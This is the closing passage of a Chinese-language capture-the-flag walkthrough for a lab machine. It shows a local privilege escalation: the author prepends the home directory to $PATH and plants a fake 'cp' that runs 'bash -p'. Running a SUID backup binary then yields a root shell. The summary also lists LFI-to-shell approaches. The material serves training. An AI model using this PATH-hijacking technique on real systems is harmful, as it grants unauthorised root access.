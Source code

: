 echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

### 把home目录/home/archangel新增到环境变量$PATH当中
```
archangel@ubuntu:~$ export PATH=/home/archangel:$PATH
export PATH=/home/archangel:$PATH
archangel@ubuntu:~$ echo $PATH
echo $PATH
/home/archangel:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

### 在新加的$PATH路径下创建一个cp文件，并且给与执行权限
```
archangel@ubuntu:~$ touch cp
touch cp
archangel@ubuntu:~$ chmod +x cp
chmod +x cp
```

### 把下面代码添加到新建的cp文件中
```
#!/bin/bash
bash -p
```

### 查看cp文件
```
archangel@ubuntu:~$ cat cp
cat cp
#!/bin/bash
bash -p
```

### 万事具备，执行SUID文件backup,提权到root
```
archangel@ubuntu:~/secret$ ./backup
./backup
root@ubuntu:~/secret# id
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
root@ubuntu:~/secret# whoami
whoami
root
root@ubuntu:~/secret# cat /root/root.txt
cat /root/root.txt
```

# 总结
精彩的靶机，学习到很多新知识。LFI拿shell一般有两种姿势：
1. LFI+上传文件getshell

2. LFI+文件解析漏洞getshell

本文用的是第二种。关于第一种方法，我在[这个靶机](https://www.jianshu.com/p/2c1eb523bec3)里有记录

提权方面，利用了修改环境变量$PATH的方式，这种提权方法需要和SUID结合。本文修改了cp命令，但是也可能修改的是其他命令。比如mv,tar等，这个要根据靶机具体的情况。